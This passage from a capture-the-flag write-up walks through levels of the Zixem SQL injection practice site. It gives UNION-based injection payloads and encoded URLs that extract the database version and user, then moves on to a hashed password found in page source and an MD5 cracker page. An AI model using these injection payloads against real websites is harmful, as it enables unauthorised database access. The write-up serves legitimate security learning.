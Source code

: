 + Test with prev Payload:  
+ ***PAYLOAD***: `7 AND 1=2' UNION SELECT version(),user(),3,4--'`  
+ `https://zixem.altervista.org/SQLi/level4.php?ebookid=7%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> The used SELECT statements have a different number of columns.

+ Let's add more column:  
+ ***PAYLOAD***: `7 AND 1=2' UNION SELECT version(),user(),3,4,5--'`  
##### Result: #####  
+ `https://zixem.altervista.org/SQLi/level4.php?ebookid=7%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4,5--%27`
> - **eBook ID:**   5.6.33-log
> - **Name:**       3
> - **Writer:**     4
> - **Price:**      zixem@localhost$

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 5](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-5)
Start:  
[http://www.zixem.altervista.org/SQLi/login_lvl5.php](http://www.zixem.altervista.org/SQLi/login_lvl5.php)  
![Login Page](./lvl5-login-page.png)  
View the Source code: [view-source:http://www.zixem.altervista.org/SQLi/login_lvl5.php](view-source:http://www.zixem.altervista.org/SQLi/login_lvl5.php)  
```
If you want a lead, enter this password.
~~~~~~~~~~~~~~~~~~ password: d1fd6ef9af6cb677e09b1b0a68301e0c ~~~~~~~~~~~~~~~~~~~~~~
       owh...it's hashed! maybe you could get some help from my md5 cracker...
~~~~~~~~~~~~~~~~~~~~~~~~here: /SQLi/md5cracker.php~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-->
```
+ Let's go to [http://www.zixem.altervista.org/SQLi/md5cracker.php](http://www.zixem.altervista.org/SQLi/md5cracker.php)  
> insert your hash with GET method.
> md5cracker.php?hash=**YourHashHere**
